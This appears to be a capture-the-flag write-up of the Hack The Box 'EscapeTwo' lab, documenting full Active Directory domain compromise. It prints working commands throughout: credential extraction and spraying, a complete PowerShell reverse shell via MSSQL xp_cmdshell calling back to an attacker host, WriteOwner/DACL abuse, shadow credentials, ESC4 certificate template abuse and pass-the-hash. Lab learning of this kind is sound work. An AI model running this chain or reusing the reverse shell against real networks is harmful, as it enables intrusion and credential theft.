

# EscapeTwo

**Platform:** HTB | **Difficulty:** Easy | **OS:** Windows | **Date:** 15/06/2025

## Overview

`EscapeTwo` is an easy difficulty Windows machine designed around a complete domain compromise scenario, where credentials for a low-privileged user are provided. We leverage these credentials to access a file share containing a corrupted Excel document. By modifying its byte structure, we extract credentials. These are then sprayed across the domain, revealing valid credentials for a user with access to `MSSQL`, granting us initial access. System enumeration reveals `SQL` credentials, which are sprayed to obtain `WinRM` access. Further domain analysis shows the user has write owner rights over an account managing `ADCS`. This is used to enumerate `ADCS`, revealing a misconfiguration in Active Directory Certificate Services. Exploiting this misconfiguration allows us to retrieve the `Administrator` account hash, ultimately leading to complete domain compromise. 



---

## Phase 1: Reconnaissance

### Network Discovery

```bash
nmap -sC -sV -T4 10.10.11.51 -oA nmap/escapetwo
```

| Port | Service      | Version                                      |
| ---- | ------------ | -------------------------------------------- |
| 53   | domain       | Simple DNS Plus                              |
| 88   | kerberos-sec | Microsoft Windows Kerberos                   |
| 135  | msrpc        | Microsoft Windows RPC                        |
| 139  | netbios-ssn  | Microsoft Windows netbios-ssn                |
| 389  | ldap         | Microsoft Windows Active Directory LDAP      |
| 445  | microsoft-ds | N/A                                          |
| 464  | kpasswd5     | N/A                                          |
| 593  | ncacn_http   | Microsoft Windows RPC over HTTP 1.0          |
| 636  | ldap         | Microsoft Windows Active Directory LDAP      |
| 1433 | ms-sql-s     | Microsoft SQL Server 2019 15.00.2000.00; RTM |
| 3268 | ldap         | Microsoft Windows Active Directory LDAP      |
| 3269 | ldap         | Microsoft Windows Active Directory LDAP      |
| 5985 | http         | Microsoft HTTPAPI httpd 2.0                  |

Domain controller with SQL Server 2019 indicated potential for database-related privilege escalation paths.

### DNS Configuration

```bash
nxc smb '10.10.11.51' --generate-hosts-file files/hosts && sudo tee -a /etc/hosts < files/hosts

...
10.10.11.51     DC01.sequel.htb DC01
```

### Initial Access Credentials

Saved the assumed breach credentials to files:
```bash
echo 'rose' > users.txt
echo 'KxEPkKe6R8su' > creds.txt
```

### User Discovery

LDAP enumeration built comprehensive user list for password spraying:
```bash
nxc ldap 'DC01' -u 'rose' -p creds.txt -d 'sequel.htb' --users | awk '{print $5}' | grep -vE '[\[|^-]' > users.txt

Administrator
Guest
krbtgt
michael
ryan
oscar
sql_svc
rose
ca_svc
```

### Share Enumeration

Credential validation revealed accessible file shares including sensitive accounting data:
```bash
nxc smb 'DC01' -u users.txt -p creds.txt -d 'sequel.htb' --shares 

...
SMB         10.10.11.51     445    DC01             -----           -----------     ------
SMB         10.10.11.51     445    DC01             Accounting Department READ            
SMB         10.10.11.51     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.51     445    DC01             C$                              Default share
SMB         10.10.11.51     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.51     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.51     445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.11.51     445    DC01             Users           READ  
```

### File System Analysis

SMB share spidering revealed the `Accounting Department` share contained sensitive organizational data:
```bash
nxc smb 'DC01' -u users.txt -p creds.txt -d 'sequel.htb' -M spider_plus -o DOWNLOAD_FLAG=True
```

```bash
cp -r /home/wither/.nxc/modules/nxc_spider_plus/10.10.11.51 .
```

### Credential Extraction from Excel Files

Share analysis revealed two Excel files: `accounting_2024.xlsx` and `accounts.xlsx`. Excel file structure examination exposed embedded credentials in XML components:
```bash
ls
accounting_2024.xlsx  accounts.xlsx

unzip accounts.xlsx                                                                                                                                             grep -r "Password" > sharedstrings.txt                                                                  
xl/sharedStrings.xml:<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="25" uniqueCount="24"><si><t xml:space="preserve">First Name</t></si><si><t xml:space="preserve">Last Name</t></si><si><t xml:space="preserve">Email</t></si><si><t xml:space="preserve">Username</t></si><si><t xml:space="preserve">Password</t></si><si><t xml:space="preserve">Angela</t></si><si><t xml:space="preserve">Martin</t></si><si><t xml:space="preserve">angela@sequel.htb</t></si><si><t xml:space="preserve">angela</t></si><si><t xml:space="preserve">0fwz7Q4mSpurIt99</t></si><si><t xml:space="preserve">Oscar</t></si><si><t xml:space="preserve">Martinez</t></si><si><t xml:space="preserve">oscar@sequel.htb</t></si><si><t xml:space="preserve">oscar</t></si><si><t xml:space="preserve">86LxLBMgEWaKUnBG</t></si><si><t xml:space="preserve">Kevin</t></si><si><t xml:space="preserve">Malone</t></si><si><t xml:space="preserve">kevin@sequel.htb</t></si><si><t xml:space="preserve">kevin</t></si><si><t xml:space="preserve">Md9Wlq1E5bZnVDVo</t></si><si><t xml:space="preserve">NULL</t></si><si><t xml:space="preserve">sa@sequel.htb</t></si><si><t xml:space="preserve">sa</t></si><si><t xml:space="preserve">MSSQLP@ssw0rd!</t></si></sst>
```

Extracted credentials from XML structure for password spraying attack:
```bash
grep -oP '<t xml:space="preserve">.*?</t>' sharedstrings.txt | sed -E -n '10p;15p;20p;24p' | sed -E 's/<\/?t[^>]*>//g' >> creds.txt 

cat creds.txt 

KxEPkKe6R8su
0fwz7Q4mSpurIt99
86LxLBMgEWaKUnBG
Md9Wlq1E5bZnVDVo
MSSQLP@ssw0rd!
```

Added corresponding usernames to target list:
```bash
grep -oP '<t xml:space="preserve">.*?</t>' sharedstrings.txt | sed -E -n '9p;14p;19p;23p' | sed -E 's/<\/?t[^>]*>//g' >> users.txt 

cat users.txt  

Administrator
Guest
krbtgt
michael
ryan
oscar
sql_svc
rose
ca_svc
angela
kevin
sa
```

---

## Phase 2: Exploitation - Credential Access & Database Infiltration

### SQL Server Access

SQL server authentication revealed privileged database access through the `sa` service account:
```bash
echo 'sa' >> users.txt

nxc mssql 'DC01' -u users.txt  -p creds.txt --local-auth 

...
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
```

### Command Execution via SQL

Privileged SQL access enabled remote code execution through `xp_cmdshell` functionality:
```bash
nc -nvlp 9001
```

```bash
nxc mssql 'DC01' -u 'sa'  -p 'MSSQLP@ssw0rd!' --local-auth -X '$LHOST = "10.10.14.17"; $LPORT = 9001; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()'
```

### Additional Credential Discovery

System enumeration revealed MSSQL server configuration file containing service account credentials:
```powershell
pwd
C:\SQL2019\ExpressAdv_ENU

more sql-Configuration.INI
...
SQLSVCACCOUNT="SEQUEL\sql_svc" SQLSVCPASSWORD="WqSZAF6CysDQbGb3" 
...
```

Added newly discovered credentials to password list:
```bash
echo 'WqSZAF6CysDQbGb3' >> creds.txt
```

### Password Reuse Discovery

Extended password spraying revealed credential reuse across service accounts, with `ryan` using the same password as `sql_svc`:
```bash
nxc winrm 'DC01' -u users.txt -p creds.txt -d 'sequel.htb' --continue-on-success

...
WINRM       10.10.11.51     5985   DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 (Pwn3d!)
...
```

User flag obtained via compromised account:
```powershell
*Evil-WinRM* PS C:\Users\ryan\Documents> more ../Desktop/user.txt
```

---

## Phase 3: Privilege Escalation - Certificate Authority Abuse

### Domain Analysis

Uploaded BloodHound data collection tool via SQL server file upload capabilities:
```powershell
nxc mssql 'DC01' -u 'sa'  -p 'MSSQLP@ssw0rd!' --local-auth --put-file SharpHound.exe 'C:\Users\Public\SharpHound.exe'

...
MSSQL       10.10.11.51     1433   DC01             [*] Copy SharpHound.exe to C:\Users\Public\SharpHound.exe
MSSQL       10.10.11.51     1433   DC01             [*] Size is 1286656 bytes
MSSQL       10.10.11.51     1433   DC01             [+] File has been uploaded on the remote machine
```

Executed domain enumeration to collect privilege relationships:
```powershell
pwd
C:\users\public

.\SharpHound.exe -c all --zipfilename loot.zip
```

Downloaded enumeration results for analysis:
```powershell
nxc mssql 'DC01' -u 'sa'  -p 'MSSQLP@ssw0rd!' --local-auth --get-file 'C:\Users\Public\20250615120137_loot.zip' loot.zip

...
"C:\Users\Public\20250615120137_loot.zip" was downloaded to "loot.zip"
```

### WriteOwner Permission Abuse

BloodHound analysis revealed that `ryan` possessed `WriteOwner` permissions over `ca_svc`, a certificate services account and member of the Certificate Publishers group. WriteOwner permissions allowed complete account takeover through ownership change and DACL modification:
```powershell
impacket-owneredit -action write -new-owner ryan -target ca_svc 10.10.11.51/ryan:WqSZAF6CysDQbGb3   
```

Ownership transfer enabled DACL modification to grant full control over the target account:
```bash
impacket-dacledit -action write -target ca_svc -principal ryan DC01.SEQUEL.HTB/ryan:WqSZAF6CysDQbGb3
```

### Key Credential Link Manipulation

Account takeover allowed certificate-based authentication configuration, bypassing traditional password authentication:

```powershell
.\Whisker.exe add /target:ca_svc
...
Rubeus.exe asktgt /user:ca_svc /certificate:MIIJwAIBAzCCCXwGCSqGSIb3DQEHAaCCCW0EgglpMIIJZTCCBhYGCSqGSIb3DQEHAaCCBgcEggYDMIIF...cTvlTuvabfRLlNGUXuTlJi+18EFPxitPFkKCkp1+f5X5bduayLcBqqAgIH0A== /password:"3emBDm8wUGJQagmv" /domain:sequel.htb /dc:DC01.sequel.htb /getcredentials /show
```

Certificate authentication extracted NTLM hash without requiring password knowledge:
```powershell
.\Rubeus.exe asktgt /user:ca_svc /certificate:MIIJwAIBAzCCCXwGCSqGSIb3DQEHAaCCCW0EgglpMIIJZTCCBhYGCSqGSIb3DQEHAaCCBgcEggYDMIIF...cTvlTuvabfRLlNGUXuTlJi+18EFPxitPFkKCkp1+f5X5bduayLcBqqAgIH0A==  /password:"3emBDm8wUGJQagmv" /domain:sequel.htb /dc:DC01.sequel.htb /getcredentials /show

...
       NTLM              : 3B181B914E7A9D5508EA1E20BC2B7FCE
```

### Certificate Template Vulnerability (ESC4)

Certificate services enumeration revealed vulnerable template `DunderMifflinAuthentication` with excessive permissions allowing template modification:
```bash
certipy find -dc-ip 10.10.11.51 -username ca_svc@sequel.htb -hashes 3B181B914E7A9D5508EA1E20BC2B7FCE -vulnerable -stdout

...
    Template Name                       : DunderMifflinAuthentication
...
    [+] User Enrollable Principals      : SEQUEL.HTB\Cert Publishers
    [+] User ACL Principals             : SEQUEL.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC4                              : User has dangerous permissions.
```

### Certificate Template Modification

Certificate Publishers group membership provided template modification capabilities enabling ESC4 exploitation:
```powershell
certipy template -u 'ca_svc' -hashes 3B181B914E7A9D5508EA1E20BC2B7FCE -template 'DunderMifflinAuthentication' -write-default-configuration -dc-ip 10.10.11.51
Certipy v5.0.3 - by Oliver Lyak (ly4k)

...
[*] Successfully updated 'DunderMifflinAuthentication'
```

Template modification enabled subject alternative name specification, allowing administrator impersonation:
```bash      
certipy req -u 'ca_svc@sequel.htb' -hashes 3B181B914E7A9D5508EA1E20BC2B7FCE -ca sequel-DC01-CA -template 'DunderMifflinAuthentication' -upn Administrator@sequel.htb -target-ip 10.10.11.51

Certipy v5.0.3 - by Oliver Lyak (ly4k)

...
[*] Wrote certificate and private key to 'administrator.pfx'
```

Certificate-based authentication retrieved administrator credentials:
```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.51  

...
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```

Administrator access achieved via pass-the-hash technique:
```bash
evil-winrm -i 'DC01' -u 'sequel.htb\Administrator' -H 7a8d4e04986afa8ed4060f75e5a0b3ff                                 
```

Root flag on the `Administrator`'s Desktop
```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> more ../Desktop/root.txt
```

---

## References
- [Grant rights \| The Hacker Recipes](https://www.thehacker.recipes/ad/movement/dacl/grant-rights)
- [Grant ownership \| The Hacker Recipes](https://www.thehacker.recipes/ad/movement/dacl/grant-ownership)
- [Abusing Active Directory Certificate Services - Part One - Black Hills Information Security, Inc.](https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/)

---
#escapetwo #htb #easy #windows